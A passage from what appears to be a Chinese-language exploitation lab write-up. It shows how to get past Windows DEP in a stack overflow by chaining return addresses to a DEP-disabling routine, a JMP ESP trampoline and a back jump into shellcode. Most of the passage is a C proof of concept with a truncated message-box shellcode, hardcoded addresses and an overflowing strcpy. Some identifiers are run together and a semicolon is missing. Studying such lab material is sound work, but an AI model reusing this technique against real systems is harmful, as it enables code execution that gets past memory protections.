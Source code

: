 ④ 关闭EBP之后 ， 0x7C93D6f  retn 4下断点  ， 发现指向我们能够控制的区域

可以通过 OllyFindAddr 插件中的 Overflow return address→Find CALL/JMP ESP

跳回shellcode执行， 但是距离太远， 我们可以再 esp 处覆盖我们的跳板，跳回shellcode。



![pwned](dep/pwned.png)

### 代码

```c
#include<stdlib.h>
#include<string.h>
#include<stdio.h>
#include<windows.h>
charshellcode[] = 
    			"\xFC\x68\x6A\x0A........"//弹窗机器码
    			"\x90\x90\x90\x90"//填充 
    			"\x52\xE2\x92\x7C"//MOV EAX,1 RETN地址
				"\x85\x8B\x1D\x5D"//修正 EBP
				"\x19\x4A\x97\x7C"//增大 ESP    pop retn 0x38
				"\xB4\xC1\xC5\x7D"//jmp esp
				"\x24\xCD\x93\x7C"//关闭 DEP 代码的起始位置 
				"\xE9\x33\xFF\xFF"//回跳指令
				"\xFF\x90\x90\x90"
void test(){
    chartt[176];
    strcpy(tt,shellcode);
} 
int main() {
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
	test();
	return 0;
}
```
